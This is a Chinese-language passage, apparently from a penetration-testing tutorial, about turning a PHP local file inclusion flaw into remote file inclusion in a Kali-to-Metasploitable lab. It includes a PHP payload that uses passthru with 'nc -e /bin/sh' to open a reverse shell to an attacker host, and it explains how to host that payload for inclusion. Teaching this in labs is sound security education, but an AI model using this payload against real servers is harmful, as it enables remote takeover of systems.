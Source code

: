 ![](img/a0b21332-5f1b-4e60-b473-c4dbaff94c23.png)

如果我们启用这两个函数，则可以使用本地文件包含漏洞进行远程文件包含。要退出当前操作，请使用*Ctrl *+ *X;*保存，请使用*Ctrl* + *Y*和*Enter*。保存文件后重新启动 Web 服务器，输入`sudo /etc/init.d/apache2 restart`。

我们了解了本地文件包含漏洞的工作原理。我们使用了五个空格后退的方法来访问`passwd`文件。在远程文件包含中，我们将访问位于不同服务器上的文件。

现在我们将在实际的 Web 服务器上进行渗透测试，以便访问存储的文件。该文件应该有一个 IP 地址或域名。我们需要在本地服务器上运行此操作，并使用`10.0.2.15`在 Kali 机器的 Web 服务器上存储文件，在我们的情况下。该文件可以是 Web shell 或有效载荷。现在创建一个简单的 PHP 文件。我们将使用`passthru()`函数，该函数将在 Windows 和 Linux 上执行 OS 命令。将要执行的命令完全取决于将要执行的 Web 服务器。创建一个名为`reverse.txt`的文件，其中包含以下代码：

```
<?php
passthru("nc -e /bin/sh 10.0.2.15 8080");
?>
```

我们将使用用于代码执行漏洞的`nc`命令，该命令允许我们从目标获取连接或反向连接。

代码以`<?php`和`?>`标签开始和结束。命令将放置在引号之间。由于我们使用的是相同的`nc`命令，它将反转计算机的连接。下一步是将该文件存储在 Web 服务器上。如果目标是远程 Web 服务器，我们应该使用 IP 来存储文件，以便从远程 Web 服务器访问该文件。我们将使用 Metasploitable 机器访问该文件，Metasploitable 将访问存储在 Kali 机器上的文件。这是可能的，因为文件和机器在同一网络上。当前文件以`/var/www/html`开头，因此文件将存储在 Kali 上，而不是 Metasploitable 上。为了反向访问，我们将把文件保存为`.txt`而不是`.php`。如果我们将文件存储为 PHP，它将在 Kali 机器上执行。如我们所知，我们已经能够访问 Kali 机器，并且需要访问 Metasploitable 上的文件。为此，我们将把文件保存为`reverse.txt`，并放置在`localhost`的`/var/www/html`目录中。该文件仍然存储在`localhost`而不是 Metasploitable 上，所以它位于`10.0.2.15`。要检查`reverse.txt`文件是否在`localhost`上，请在地址栏中输入`localhost/reverse.txt`并按*Enter*。该文件将在浏览器中显示：

![](img/f33f8c90-c206-422d-8338-2e60d9e55956.png)
